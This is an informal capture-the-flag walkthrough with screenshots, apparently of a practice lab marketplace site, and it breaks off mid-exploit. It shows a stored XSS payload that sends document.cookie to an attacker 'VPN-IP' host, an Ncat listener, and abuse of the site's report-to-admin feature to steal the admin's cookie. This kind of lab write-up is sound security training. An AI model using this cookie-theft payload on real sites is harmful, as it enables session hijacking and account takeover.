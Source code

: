 ![Image](https://imgur.com/sTRZJg2.png)

So i go back to try to accesss the admin page but i get a blow lol yea.


![Image](https://imgur.com/Xhv8uCb.png)

Ok what to do what to do so let try the normal login page i try using admin/admin for both username and password but no user was found ok i try looking around so we found a sign up page.

![Image](https://imgur.com/XZMsnEZ.png)

![Image](https://imgur.com/GdiuuWF.png)

Cool let log in with the new credentials we just created.

![Image](https://imgur.com/UoEIFV4.png)

I check messages it was empty so i try looking around back to the homepage i click on one the item.

![Image](https://imgur.com/Rq4kzSN.png)

So we can contact the listing author wow but WTF am i going to contact the author telling him to send me the admin creds what a joke lol ok we can see report listing to admin let see what that do.

![Image](https://imgur.com/dImyOGs.png)

So i file a report in a few min i got a reply back from the admin.

![Image](https://imgur.com/UmsQt5O.png)

```From system Thank you for your report. We have reviewed the listing and found nothing that violates our rules.```

Cool the first thing that come to my mind is can i steal the admin cookie is the website vulnerable to XSS no harm in tring i guess so i try to create my own listing with a XSS payload.

```</p><script>window.location = 'http://VPN-IP/page?param=' + document.cookie </script><p>```

![Image](https://imgur.com/XwRiodk.png)

After creating your listing you will get unable to connect don't panic just go back to the homepage.

![Image](https://imgur.com/ntKVyl5.png)

Going back to the homepage we see our listing.

![Image](https://imgur.com/pMF8kVW.png)

Cool so what next to do is to start an Ncat listener on port 80.

![Image](https://imgur.com/uQS3lRO.png)

Ok now let report our listing to the admin yes i know we can't access our listing we get unable to connect what to is to note the id yes number of the listing we have two listing on the website already so we are the three listing which is 3.

```http://IP/report/3```

![Image](https://imgur.com/kWXwM0n.png)

Ok let click on report.

![Image](https://imgur.com/UOsOEbT.png)

So i refresh the messages.
```